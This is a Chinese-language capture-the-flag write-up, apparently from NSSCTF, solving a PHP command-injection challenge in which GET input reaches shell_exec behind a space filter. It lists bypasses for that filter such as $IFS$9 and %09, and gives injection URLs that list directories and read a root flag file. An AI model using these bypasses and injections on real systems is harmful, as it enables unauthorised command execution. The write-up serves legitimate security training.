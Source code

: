 ```
这句话的意思差不多就是在输入的参数中去查找看是否有匹配该字符的地方

shell_exec()函数通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。也就是说当匹配到空格时就无法执行命令
所以这里我们就需要绕过空格

回顾-绕过空格的方式：
%09（tab键）、%20（空格）、$IFS$9、<>（是大于号小于号，不是菱形）、${IFS}
```

```
http://node5.anna.nssctf.cn:28950/rasalghul.php?url=ls

查看当前目录发现没有flag文件

 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> index.php rasalghul.php 

因为空格被绕过了，所以这里我们使用$IFS$9

一级一级往上查

http://node5.anna.nssctf.cn:28950/rasalghul.php?url=ls$IFS$9../../../

最后发现是在根目录上，所以我们直接这么写，最后位置的一个' / '就代表了根目录，这里也涉及到了一部分的Linux命令

http://node5.anna.nssctf.cn:28950/rasalghul.php?url=ls$IFS$9/

 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 

猜测藏有flag信息的文件在flllllaaaaaaggggggg，查看试试

http://node5.anna.nssctf.cn:28950/rasalghul.php?url=cat$IFS$9/flllllaaaaaaggggggg

（flllllaaaaaaggggggg前面的反斜杠' / '不要忘，因为它是处在根目录下的）

 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
```